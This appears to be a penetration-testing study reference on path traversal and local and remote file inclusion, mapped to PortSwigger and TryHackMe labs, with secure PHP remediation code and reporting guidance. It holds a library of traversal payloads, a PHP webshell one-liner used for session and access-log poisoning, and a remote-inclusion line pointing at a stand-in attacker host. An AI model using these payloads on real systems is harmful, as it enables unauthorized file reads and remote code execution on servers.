

# Path Traversal & File Inclusion — HAXMED Intelligence Reference

[]()
[]()
[]()
[]()

---

## 1. Overview

**Path Traversal** (also known as Directory Traversal or Dot-Dot-Slash) and **File Inclusion** (Local File Inclusion / Remote File Inclusion) represent vulnerabilities where an application accepts user input to construct filesystem paths or load server-side modules without validating that the target path remains restricted to the intended storage root.

- **Primary Classification:** OWASP Top 10:2021 — **A01:2021-Broken Access Control** (Path Traversal reading unauthorized files) and **A03:2021-Injection** (LFI/RFI executing dynamic code); CWE-22 and CWE-98.
- **Common Aliases:** Directory Traversal, Dot-Dot-Slash (`../`), LFI, RFI, Arbitrary File Read, Arbitrary File Inclusion.
- **CWE Mappings:**
  - `CWE-22`: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')
  - `CWE-23`: Relative Path Traversal
  - `CWE-36`: Absolute Path Traversal
  - `CWE-98`: Improper Control of Filename for Include/Require Statement in PHP ('PHP File Inclusion')
- **Security Impact:**
  - **Path Traversal:** Unauthorized reading of application configuration files, environment secrets (`.env`), password hashes (`/etc/shadow`), SSH keys, and source code.
  - **LFI / RFI:** Code execution on the web server (RCE) via PHP stream wrappers, server log poisoning, session poisoning, or remote file evaluation.

---

## 2. Root Cause and Attack Surface

### Root Cause
1. **Unsanitized Path Concatenation:** Concatenating raw user parameters directly into file-system primitives (`file_get_contents('/var/www/uploads/' . $_GET['filename'])`).
2. **Missing Canonicalization Checks:** Failing to resolve and verify the absolute canonical path (`realpath()`) against the allowed base directory before opening the file.
3. **Flawed Filter Implementations:** Relying on single-pass blacklist replacements (e.g., removing `../` once, which collapses `....//` into `../`).
4. **Dangerous Language Configuration:** Leaving `allow_url_include = On` or `allow_url_fopen = On` in PHP, permitting external network URIs in file inclusion calls.

### Attack Surface Entry Points
- **Image & Asset Loading Parameters:** `/image?filename=avatar.png`, `/download?file=invoice.pdf`.
- **Localization & Template Routing:** `/index.php?page=home.php`, `/index.php?lang=en`.
- **Theme & Skin Switchers:** `/view?theme=dark`, `/load?module=dashboard`.
- **HTTP Request Headers & Cookies:** File loading determined by session cookies (`Cookie: lang=en`) or custom headers.

---

## 3. Detection and Reconnaissance

### Signs of Susceptibility
- URLs containing filenames with extensions (`.pdf`, `.png`, `.php`, `.html`, `.xml`).
- Parameters named `file`, `path`, `filename`, `page`, `view`, `template`, `doc`, `folder`, `root`.
- Error messages disclosing backend paths (`Warning: file_get_contents(/var/www/html/...): failed to open stream`).

### Standard Target Files Matrix

| Platform | Target File | Verification Marker |
|---|---|---|
| Linux | `/etc/passwd` | Contains `root:x:0:0:` |
| Linux | `/etc/os-release` / `/proc/version` | Contains distribution name & kernel info |
| Linux | `/var/log/apache2/access.log` | Contains logged HTTP client requests |
| Windows | `C:\Windows\win.ini` | Contains `[fonts]` or `[extensions]` |
| Windows | `C:\boot.ini` | Contains `[boot loader]` |
| Windows | `C:\Windows\System32\drivers\etc\hosts` | Contains local IP hostname bindings |

---

## 4. Testing Methodology



---

## 5. Payload Library

### TRAV-PL-01: Classic Relative Traversal
- **Payload:** `../../../../../../etc/passwd`
- **Purpose:** Test unvalidated path concatenation.
- **Context:** Standard query string parameters.
- **Expected Behavior:** System `/etc/passwd` returned with `root:x:0:0:`.
- **Classification:** `[CONFIRMED]`

### TRAV-PL-02: Absolute Path Direct Access
- **Payload:** `/etc/passwd`
- **Purpose:** Test whether the application treats input as an absolute path if relative sequences are blocked.
- **Context:** Applications where the code blindly passes input to a filesystem function without prepending a fixed directory.
- **Classification:** `[CONFIRMED]`

### TRAV-PL-03: Nested / Non-Recursive Traversal
- **Payload:** `....//....//....//....//etc/passwd`
- **Purpose:** Bypass single-pass string replacement filters (`str_replace('../', '', $input)`).
- **Classification:** `[CONFIRMED]`

### TRAV-PL-04: Double URL Encoding (Superfluous Decoding)
- **Payload:** `%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd`
- **Purpose:** Bypass WAFs or input sanitizers when an upstream server or application decodes the URL twice.
- **Classification:** `[CONFIRMED]`

### TRAV-PL-05: Enforced Base Directory Prefix
- **Payload:** `/var/www/images/../../../etc/passwd`
- **Purpose:** Satisfy validation logic that checks `strpos($input, '/var/www/images') === 0`.
- **Classification:** `[CONFIRMED]`

### TRAV-PL-06: Null Byte String Termination (Legacy)
- **Payload:** `../../../../etc/passwd%00.png`
- **Purpose:** Bypass appended extension requirements (`$filename . ".png"`) in PHP < 5.3.4.
- **Classification:** `[VERSION-DEPENDENT]`

### TRAV-PL-07: PHP Filter Wrapper (Source Code Extraction)
- **Payload:** `php://filter/convert.base64-encode/resource=config.php`
- **Purpose:** Extract backend PHP source code without executing it.
- **Classification:** `[CONFIRMED]`

---

## 6. Bypass Techniques & Advanced LFI-to-RCE

### 1. PHP Session Poisoning
- **Precondition:** Application stores user-controlled data into `$_SESSION` and saves sessions to disk.
- **Workflow:**
  1. Inject PHP payload into a profile field or cookie: `<?php system($_GET['c']); ?>`.
  2. Locate session file: `/var/lib/php/sessions/sess_<PHPSESSID>`.
  3. Include the session file via LFI: `?page=/var/lib/php/sessions/sess_<ID>&c=id`.

### 2. Apache / Nginx Access Log Poisoning
- **Precondition:** Web server access logs are readable by the web service user (e.g., `www-data`).
- **Workflow:**
  1. Send an HTTP request with code in the `User-Agent` header:
     `User-Agent: <?php system($_GET['c']); ?>`
  2. Include the access log: `?page=/var/log/apache2/access.log&c=whoami`.

### 3. Remote File Inclusion (RFI)
- **Precondition:** `allow_url_include = On` in `php.ini`.
- **Workflow:** Point parameter to an external text file:
  `?page=http://attacker.local/payload.txt`

---

## 7. Exploit and PoC References

- **CVE-2021-41773 (Apache HTTP Server 2.4.49):** Path traversal flaw allowing attackers to map URLs to files outside the document root via unnormalized URI path segments (`.%2e/`).
- **CVE-2021-42013 (Apache HTTP Server 2.4.50):** Bypass of the incomplete fix for CVE-2021-41773 using double-encoded traversal sequences (`%%32%65%%32%65/`).
- **CVE-2024-38856 (Apache OFBiz):** Unauthenticated Remote Code Execution via path traversal parameter manipulation.

---

## 8. Tools and Automation

1. **DotDotPwn:**
   - **Repository:** `https://github.com/wireghoul/dotdotpwn`
   - **Purpose:** Intelligent directory traversal fuzzer testing diverse encoding schemes, deep traversal depths, and OS signatures.
2. **Burp Suite Intruder:**
   - SecLists payload lists: `Fuzzing/LFI/LFI-graceful-tree-traversal.txt`.
3. **Kadimus:**
   - **Purpose:** Automated LFI scanner and RCE exploitation tool supporting wrappers and log poisoning.

---

## 9. Troubleshooting and False Positives

- **Encoding Complications in HTTP Clients:** Some tools (such as curl) automatically normalize `../` sequences on the client side before sending the HTTP request. Always verify using raw proxy logs or use `--path-as-is` in curl.
- **Permissions Bottlenecks:** Getting a 403 or 404 does not always mean path traversal is impossible; the process user (`www-data`) may simply lack read permissions for the specific file (e.g., `/etc/shadow`). Always test `/etc/passwd` or `/etc/issue` first.

---

## 10. Remediation and Retesting

### Secure Implementation Pattern: Canonical Path Validation
```php
<?php
// SECURE: Enforce canonical base directory boundaries
$base_directory = '/var/www/app/uploads/';
$user_input = $_GET['filename'];

// Step 1: Strip path separators to extract raw basename
$safe_filename = basename($user_input);

// Step 2: Resolve canonical realpath
$real_base = realpath($base_directory);
$target_path = realpath($base_directory . $safe_filename);

// Step 3: Verify the resolved path starts with the trusted directory
if ($target_path === false || strpos($target_path, $real_base) !== 0) {
    http_response_code(403);
    die("Access Denied: Path traversal detected.");
}

// Step 4: Safely serve file
readfile($target_path);
?>
```

### Server Hardening Checklist:
- [ ] Set `open_basedir = "/var/www/html"` in `php.ini`.
- [ ] Disable `allow_url_fopen` and `allow_url_include`.
- [ ] Ensure web server log files have restricted permissions (`chmod 640`, owned by root/adm).
- [ ] Implement an explicit allowlist mapping of permissible file identifiers.

---

## 11. PortSwigger / TryHackMe / OWASP Lab Mapping

| Lab Name | Platform | Specific Bypass / Vector | Directory Reference |
|---|---|---|---|
| File Path Traversal, Simple Case | PortSwigger | Standard Relative (`../../../`) | [Lab-01](./EN/Lab-01-File-Path-Traversal-Simple-Case.md) |
| Traversal Sequences with Absolute Path Bypass | PortSwigger | Direct Absolute Access (`/etc/passwd`) | [Lab-02](./EN/Lab-02-Traversal-Sequences-Blocked-with-Absolute-Path-Bypass.md) |
| Traversal Sequences Stripped Non-Recursively | PortSwigger | Nested Sequence (`....//`) | [Lab-03](./EN/Lab-03-Traversal-Sequences-Stripped-Non-Recursively.md) |
| Traversal Sequences with Superfluous URL-Decode | PortSwigger | Double URL Encoding (`%252e%252e%252f`) | [Lab-04](./EN/Lab-04-Traversal-Sequences-Stripped-with-Superfluous-URL-Decode.md) |
| Validation of Start of Path | PortSwigger | Mandatory Prefix Matching | [Lab-05](./EN/Lab-05-Validation-of-Start-of-Path.md) |
| Validation of File Extension with Null Byte Bypass | PortSwigger | Null Byte Truncation (`%00`) | [Lab-06](./EN/Lab-06-Validation-of-File-Extension-with-Null-Byte-Bypass.md) |
| File Inclusion Room (Labs 1-6 & RFI) | TryHackMe | Traversal, LFI, RFI, Challenges | [THM Guide](./EN/THM-File-Inclusion.md) |
| Advanced LFI & Traversal | TryHackMe | Wrappers, Log & Session Poisoning | [THM Guide](./EN/THM-File-Inclusion-Path-Traversal.md) |

---

## 12. Reporting Guidance

- **Vulnerability Title:** Path Traversal / Arbitrary File Read via Unvalidated Parameter.
- **Severity Rating:** High (CVSS v3.1: 7.5 - 8.6) to Critical if LFI escalates to RCE (CVSS v3.1: 9.8).
  - *Vector Example:* `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`
- **Remediation Recommendation:** Enforce filesystem path canonicalization (`realpath`) and verify that target paths reside inside the designated storage folder; prefer indirect allowlist indexes over direct filesystem paths.

---

## 13. References

- **PortSwigger Directory Traversal Academy:** https://portswigger.net/web-security/file-path-traversal
- **OWASP Path Traversal:** https://owasp.org/www-community/attacks/Path_Traversal
- **CWE-22 (Path Traversal):** https://cwe.mitre.org/data/definitions/22.html
- **CWE-98 (PHP Remote File Inclusion):** https://cwe.mitre.org/data/definitions/98.html

---

## 14. Research Coverage and Validation Status

| Metric | Status / Count |
|---|---|
| Total Lab References Verified | 8 (6 PortSwigger + 2 TryHackMe) |
| Verification Status | `[CONFIRMED]` across all documented lab targets |
| Limitations | Null byte truncation (`%00`) is patched in modern PHP runtimes (>= 5.3.4). |
